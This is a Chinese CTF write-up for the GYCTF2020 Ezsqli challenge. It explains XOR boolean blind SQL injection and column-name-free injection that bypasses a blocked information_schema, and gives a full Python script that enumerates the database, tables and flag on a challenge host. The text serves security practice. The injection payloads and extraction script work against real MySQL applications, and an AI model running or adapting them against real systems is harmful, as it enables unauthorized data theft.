

# [GYCTF2020]Ezsqli

## 知识点

`SQL注入` 

`异或注入`

`布尔盲注`

`无列名注入`

## 解题

首先进入发现`post`传参，而且是`异或注入且为布尔盲注`

因为`information_schema`被禁用，使用`无列名注入`




说明第一个字符为`f`，那么直接注入,[使用脚本](./Web/Scripts/)

```python
import requests
# from urllib.parse import urljoin
from string import ascii_letters, punctuation

url = 'http://183fd216-2483-4a2c-8e86-60962b0db22c.node5.buuoj.cn:81/'

def judge_database():
    """ 获取数据库长度 """
    for db_length in range(40):
        tmp_url = f"{url}"
        data = {"id": f"0^(select(length(database())={db_length}))"}
        resp = requests.post(tmp_url, data=data, timeout=8)
        if 'Nu1L' in resp.text:         # 返回正常页面的判断值
            print(f"Database length is: {db_length}")
            return db_length
        print(f"try {tmp_url} post data - {data}")


def get_database(db_length):
    """ 获取数据库名 """
    database = ''
    for i in range(1, db_length + 1):
        for s in (ascii_letters + punctuation):
            tmp_url = f"{url}"
            data = {"id": f"0^(substr(database(),{i},1)='{s}')"}
            print(f"{tmp_url}\t\t{data}\t\t")
            resp = requests.post(tmp_url, data=data, timeout=8)
            if 'Nu1L' in resp.text:
                database += s # 返回正常页面的判断值
                print(s)
                break
    print(f"Database is: {database}")
    return database


def get_tables_length(db):
    """ 获取表名长度 """
    for table_length in range(300):
        tmp_url = f"{url}"
        data = {'id':f"0^(select(length((select(group_concat(table_name))from(sys.x$schema_flattened_keys)where(table_schema=database()))))={table_length})"}
        resp = requests.post(tmp_url, data=data, timeout=8)
        print(f"{tmp_url}    {data}")
        # print(resp.text)
        if 'Nu1L' in resp.text:
            print(f"Table length is: {table_length}")
            return table_length

def get_tables(db, table_length):
    """ 获取表名 """
    tables = ''
    for i in range(1, table_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}"
            data = {"id": f"0^(ascii(substr((select(group_concat(table_name))from(sys.x$schema_flattened_keys)where(table_schema=database())),{i},1))<{mid})"}
            print(data)
            resp = requests.post(tmp_url, data=data, timeout=8)
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            if 'Nu1L' in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        tables += chr(mid - 1)
        print(tables)
    print(f"Tables name is: {tables}")
    return tables


def get_flag(table_name, value_length=100):
    """ 获取表名 """
    flag = ''
    for i in range(1, value_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            s = flag
            s += chr(mid)
            tmp_url = f"{url}"
            data = {"id": f"0^((1,'{s}')>(select * from {table_name}))"}
            print(data)
            resp = requests.post(tmp_url, data=data, timeout=8)
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            if 'Nu1L' in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        flag += chr(mid - 1)
        print(flag)
    print(f"flag value is: {flag}")
    return flag


if __name__ == '__main__':
    # db_length = judge_database()
    # print(db_length)
    db_length = 21
    # db = get_database(db_length)
    db = 'give_grandpa_pa_pa_pa'
    # table_length = int(get_tables_length(db))
    table_length = 39
    # tables = get_tables(db, table_length)
    table_name = 'f1ag_1s_h3r3_hhhhh'       # f1ag_1s_h3r3_hhhhh,users233333333333333
    value_length = 100
    get_flag(table_name, value_length)
    
```

